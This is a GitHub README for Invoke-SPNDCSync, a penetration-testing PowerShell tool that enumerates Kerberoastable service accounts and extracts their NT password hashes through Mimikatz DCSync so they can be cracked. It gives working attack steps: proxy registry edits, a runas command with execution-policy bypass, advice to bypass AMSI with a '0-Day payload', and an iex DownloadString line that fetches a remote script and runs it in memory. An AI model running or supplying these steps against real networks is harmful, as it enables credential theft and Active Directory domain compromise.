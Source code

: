 # Invoke-SPNDCSync

PowerShell script to enumerate Kerberoastable SPN user account and retrieve their NT-Hash via Mimikatz for password cracking.

This is an alternative to cracking Kerberos-Hashes, since NT-Hashes can be cracked 135 times faster.

## General Preparation

1. Connect to the internal AD network via VPN or directly, if on-site.
2. Configure your operating system's proxy to use the client's proxy. Internet is required to download Invoke-Mimikatz and Invoke-DCSync PS scripts. Alternatively, configure a known proxy via PS:

````
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyServer -Value "127.0.0.1:8080"
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyEnable -Value 1
````
3. Open a new PowerShell terminal as another user; use a privileged domain user account with DCSync rights

````
runas.exe /netonly /noprofile /user:mydomain.prod.dom\dcsyncUser "powershell.exe -ep bypass"
````

4. Verify authenticated AD access within your PowerShell terminal window

## SPN DCSync Preparation

It is recommended to bypass AMSI for the current PowerShell session. Use a 0-Day payload!

# SPN DCSync Execution

Download ``Invoke-SPNDCSync.ps1`` into memory, which executes the DCSync process.

As a result, we will obtain our files located under C:\temp\SPN-DCSYNC\ directory:

````
iex(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/pentestfactory/Invoke-SPNDCSync/main/Invoke-SPNDCSync.ps1')
````
